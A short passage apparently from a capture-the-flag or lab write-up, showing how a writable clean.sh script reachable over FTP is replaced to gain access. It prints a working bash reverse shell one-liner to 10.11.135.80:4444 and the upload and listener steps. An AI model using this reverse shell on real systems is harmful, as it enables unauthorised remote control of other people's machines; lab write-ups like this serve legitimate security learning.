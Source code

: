 **`clean.sh` can be modified to get a reverse shell** to the user that is running the script (clean.sh).

# Exploitation
---
```bash        
#!/bin/bash
bash -i >& /dev/tcp/10.11.135.80/4444 0>&1
```
- Upload on ftp server:
	- `put clean.sh`
- Start listener to get a connection:
- ![[Pasted image 20250502161555.png]]